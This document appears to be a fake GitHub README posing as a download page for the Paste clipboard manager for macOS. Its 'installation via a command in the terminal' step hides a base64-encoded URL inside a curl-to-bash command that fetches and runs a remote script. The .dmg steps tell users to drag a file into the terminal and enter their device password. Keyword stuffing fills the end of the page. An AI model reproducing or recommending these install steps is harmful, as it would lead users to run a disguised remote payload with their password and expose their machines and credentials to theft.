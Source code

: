 # Paste Download Mac - Advanced Clipboard Manager for macOS

![Paste Screenshot 1](https://framerusercontent.com/images/vgHK11odZDz1YTbbPknjhcYLmQo.png)

---

## 🔽 Download Paste for Mac

[![Download Now](https://img.shields.io/badge/Download_Paste-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/paste)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Paste for Mac?

Paste is an innovative clipboard manager created specifically for macOS users who demand efficiency and organization. This powerful tool goes beyond simple copy-paste functionality by maintaining a comprehensive history of everything you copy, allowing for easy retrieval and management. Ideal for professionals across various fields - including developers working with code snippets, designers handling assets, writers managing research, or anyone who regularly works with copied content - Paste eliminates the frustration of lost clipboard items.

What sets Paste apart from basic clipboard utilities is its robust feature set. The application provides seamless synchronization across all your Apple devices through iCloud, intelligent search capabilities that help you find items instantly, and the option to pin important clips for quick access. It handles diverse content types flawlessly, from formatted text and high-resolution images to various file formats, making it versatile for all your workflow requirements. Optimized for both Intel processors and Apple Silicon (M1/M2 chips), Paste delivers exceptional performance that takes full advantage of macOS capabilities.

Beyond core clipboard management, Paste enhances productivity with features like customizable keyboard shortcuts for rapid access, a chronological timeline view of your clipboard history, and robust encryption to protect sensitive information. The app's elegant, intuitive interface combines aesthetic appeal with practical functionality, featuring customizable categories and tags for superior organization. Whether you're collaborating on team projects, compiling research materials, or simply trying to maintain workflow efficiency, Paste transforms your clipboard into a powerful productivity asset that adapts to your working style.

![Paste Screenshot 2](https://lifehacker.com/imagery/articles/01HF2H4YTW10HRWXX5SJ7KJ0EM/hero-image.fill.size_1248x702.v1699836163.png)

---

## Key Features & Benefits

- 📋 Advanced clipboard history management  
- ⚡️ Optimized for Apple Silicon (M1/M2)  
- 🔍 Smart search and organization  
- 🔒 Encryption for sensitive data  
- ☁️ iCloud sync across devices  
- ⌨️ Customizable keyboard shortcuts  

Whether you're a professional or a casual user, Paste enhances your workflow by keeping your clipboard history accessible and secure.

---

## 🔍 Keywords

Paste for Mac, Paste Mac Download, Paste for Mac Download, Paste Mac, Paste Download Mac, Paste Download for Mac, paste full version, Mac Download Paste, Download Mac Paste, Download Paste Mac, Download Paste for Mac
